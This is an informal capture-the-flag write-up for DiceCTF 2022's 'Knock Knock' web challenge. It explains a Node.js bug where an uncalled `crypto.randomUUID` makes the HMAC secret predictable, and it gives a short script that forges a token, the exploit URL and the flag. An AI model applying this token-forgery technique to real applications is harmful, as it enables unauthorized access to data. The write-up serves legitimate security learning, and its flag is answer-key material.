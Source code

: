 # Knock Knock

# Background
This chall is strange and really cool also and make me to learn node js from basic back.


# Vuln detect
So, there is two mistake in source code if you look carefully.

1. In below, you can see the `this.secret` object will craete a hash with `randomUUID`. but this will just return a `undefined` [Example file](https://github.com/ComdeyOverflow/CTF-Writeup/blob/main/Dice-CTF-2022/Knock-Knock/example.js). 
  **don't ask me why because i am noob at js**
```
class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }
```
2. as a below source, we can know that Developer generate a `token` value with a `id`, also create the hash with `this.secret` object too: 
  `createHmac('sha256', this.secret`. And the most scary part is that know the secret's value :). it is `secret-${crypto.randomUUID}`!!.
```
generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret) // here is main vuln
      .update(id.toString()) 
      .digest('hex');
  }
}
```

So, we know the vuln now, what need to do? and also how we can get flag? answer is in below!!

# Solution
So first, we know the secret value!.

and this line make us to get easier `else res.send(note.data);`. by this line, we can know that if we pass `note.error`, we will get the data that return.
 and there is only data to return in database is FLAG!!!!!!!!!.
 
 So, why not create our own hash for token?. let create!!
 
 # Solve.js
 ```
const crypto = require('crypto');
secret = `secret-${crypto.randomUUID}`;

console.log(`${crypto.createHmac('sha256', secret).update('0').digest('hex')}`);
 ```
this output this hash `7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264`. 

**Note**: the hash will be diffrent dude to node version. i used node version `17.4.0`. you have to be same or at least not too outdate with the challenge's server node version.

# get flag
https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
`dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}`

# To CTF orgraziners
Thanks for really awesome Web challenges and other challs too.

Thanks for reading all!!
